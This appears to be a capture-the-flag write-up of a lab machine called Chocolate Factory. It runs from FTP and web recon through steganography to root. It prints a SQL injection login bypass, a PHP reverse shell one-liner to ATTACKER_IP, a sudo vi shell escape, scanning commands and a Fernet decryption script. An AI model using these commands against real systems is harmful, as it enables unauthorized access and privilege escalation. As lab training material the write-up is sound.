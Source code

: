 # 🍫 Chocolate Factory CTF Write-Up 🏭


## 🌟 Executive Summary
Successfully penetrated a Wonka-themed Linux system through multiple vulnerabilities, ultimately gaining root access by combining web exploitation, steganography, and privilege escalation techniques.

                     _.-~-.
                   _' {} _-~
                 _~ ._ ~-._
               _~ -._~._.-~ -._
             _~ -._   __ _ .-~ ~.
           _~ .-~   ``  ``   ~-._~-._
         _~ -._                   ~ -~.
       _~_.-~                        ~-_
       ~ -._   Chocolate Factory       ~-.
             ~ -._                   _-~  `
                   ~ -._        _ -~
                       ~ -_ --~


🔍 Reconnaissance
🛠️ Tools Used


🛡️ Nmap | 🕷️ Feroxbuster | 🔍 ffuf | 🖼️ Steghide | 🧰 LinPEAS

🎯 Attack Surface
Port	Service	Version	Findings
21	FTP	vsftpd 3.0.3	Anonymous login allowed, found gum_room.jpg
22	SSH	OpenSSH 7.6p1	Potential brute force target
80	HTTP	Apache 2.4.29	SQLi in login, command injection
100	Custom	?	Mysterious Wonka message

🔑 Key Discoveries

+ Found hidden shadow file in gum_room.jpg via steghide
+ SQL injection vulnerability using 'or 1=1 -- 
+ Command injection in home.php


🚪 Initial Access

python

# PHP Reverse Shell
php -r '$sock=fsockopen("ATTACKER_IP",7777);exec("sh <&3 >&3 2>&3");'

🧩 Stabilizing Shell

# Magic shell stabilization sequence
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Background with Ctrl+Z
stty raw -echo; fg

📈 Privilege Escalation Path

{
  "location": "/home/charlie/user.txt",
  "content": "flag{user_flag_here}"
}

🏴‍☠️ Root Flag

Decrypted using Python script:
python

from cryptography.fernet import Fernet
key = "-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY="
f = Fernet(key)
print(f.decrypt(b'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'))

Final Prize: flag{cec59161d338fef787fcb4e296b42124}

📝 Lessons Learned

Category	Insight
Web Security	SQLi still works on modern systems
Steganography	Always check files for hidden data
Privilege Escalation	Sudo -l should be first command run
Cryptography	Found keys might be useful later

🧰 Full Command Cheatsheet

# Nmap scan
nmap -sV -sC -p- 10.10.109.203
rustscan -a <ip> -- -A

# Web directory brute-forcing
feroxbuster -u http://10.10.109.203/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt

# Steganography extraction
steghide extract -sf gum_room.jpg

# Privilege escalation
sudo vi -c ':!/bin/sh' /dev/null
